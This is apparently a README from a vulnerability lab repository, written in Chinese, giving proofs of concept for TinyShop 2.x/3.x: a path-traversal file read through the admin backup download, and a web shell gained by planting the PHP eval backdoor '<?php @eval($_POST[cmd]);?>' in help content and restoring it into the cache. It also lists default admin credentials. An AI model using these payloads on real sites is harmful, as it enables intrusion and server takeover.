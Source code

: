 ## 特殊说明

默认后台地址为 `http://127.0.0.1/index.php?con=admin&act=login`，账号密码为 `admin:admin123`

## TinyShop 2.4 任意文件读取漏洞

测试镜像

* src/tinyshop/2.4

影响版本

* TinyShop 2.x

参考链接

* [TinyShop缓存文件获取WebShell](http://www.freebuf.com/vuls/161409.html)

Poc

1. 进入后台 -> 数据库管理 -> 数据库备份 页面，e.g `http://127.0.0.1/index.php?con=admin&act=tables_list`
2. 备份任意数据库
3. 通过 `back` 参数下载任意文件，e.g

   ```
   http://127.0.0.1/index.php?con=admin&act=down&back=../../protected/config/config.php
   ```

## TinyShop 2.x/3.x 缓存getshell

测试镜像

* src/tinyshop/3.0

影响版本

* TinyShop 2.x/3.x

参考链接

* [TinyShop缓存文件获取WebShell](http://www.freebuf.com/vuls/161409.html)

Poc

1. 进入后台->内容管理->全部帮助，选择任意一条记录，编辑该记录，在其内容中添加一句话后门代码`<?php @eval($_POST[cmd]);?>`并保存

2. 备份数据库中的帮助表，在“系统设置”-“数据库备份” 数据库表中选择包含help的表，在本例中为tiny_help的表，选择后在数据库备份中进行备份。

3. 下载备份的数据库表sql文件，将其中的一句话代码被html转义的部分修改回原样

4. 在“系统设置”-“数据库还原”-“导入”，选择已经修改过的sql文件，选择“上传”，文件上传后会自动还原数据库。     

5. 清理缓存，单击“系统设置”-“安全管理”-“清除缓存”，选择清除所有缓存。

6. 访问页面，在浏览器中随机访问其帮助文件中的列表来生成缓存，例如“用户注册协议”的地址：

`http://192.168.127.130/tinyshop_2.x/index.php?con=index&act=help&id=14`

7. 访问对应缓存文件获取shell

`http://192.168.127.130/tinyshop_2.x/cache/368/501/4461.php`





